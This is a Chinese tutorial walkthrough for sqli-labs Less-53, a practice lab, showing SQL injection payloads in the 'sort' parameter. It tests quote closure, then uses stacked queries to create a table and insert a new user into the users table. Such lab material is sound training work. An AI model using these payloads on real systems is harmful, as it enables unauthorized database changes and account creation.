




# Less - 53

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-53/?sort=1'--+
```

​​

所以判断这里闭合方式为’–+，并且为字符型注入。因为这里没有完整错误回显，所以这里我们只能使用时间盲注，但是在本关中使用了mysgli multi guery()函数，而在less46-49关中使用了mysqL fetch_assoc()函数，所以这里我们也可以使用堆叠注入攻击。

---

## 2、创建一张表

---

```http
http://192.168.23.128/sqli-labs/Less-53/?sort=1';create table test like users; --+
```

​​

---

## 3、创建一个新用户

---

```http
http://192.168.23.128/sqli-labs/Less-53/?sort=1';insert into users values(18,'cmx','cmx'); --+
```

​​

​​

‍
